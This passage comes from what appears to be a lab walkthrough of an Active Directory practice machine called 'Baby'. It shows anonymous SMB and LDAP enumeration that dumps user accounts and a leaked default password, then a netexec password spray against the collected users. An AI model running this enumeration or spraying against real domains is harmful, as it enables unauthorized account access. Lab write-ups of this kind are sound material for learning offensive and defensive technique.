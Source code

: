 ```bash
Server allows session using username '', password ''
...
[+] Domain: BABY
[+] Domain SID: S-1-5-21-1407081343-4001094062-1444647654
[+] Membership: domain member
...
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: ''
OS build: '20348'
...
```

This scan yieled some useful results like the computer name and some information about the system, usually I would try enumerate some more with `ldapsearch`.

``` bash
sylsec$ ldapsearch -LLL -x -H ldap://$ip -b '' -s base '(objectclass=*)'
...
rootDomainNamingContext: DC=baby,DC=vl
ldapServiceName: baby.vl:babydc$@BABY.VL
```

This didn't yield that much information but we can search for the specific domain components (`baby,vl`)

(Only the interesting information)
```bash 
sylsec$ ldapsearch -x -H ldap://$ip -D '' -w '' -b "DC=baby,DC=vl"
...
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to BabyStart123!
...
<other users>
```

Now we've learned that the initial password for the users is `BabyStart123!`, we can save all the found users under users.txt and try the password against all of them with `netexec` (previously `CrackMapExec`).

```bash
sylsec$ netexec smb $ip -u ./users.txt -p ./passwords.txt 
SMB         10.10.83.68     445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
...
SMB         10.10.10.6      445    BABYDC           [-] baby.vl\caroline.robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
...
```
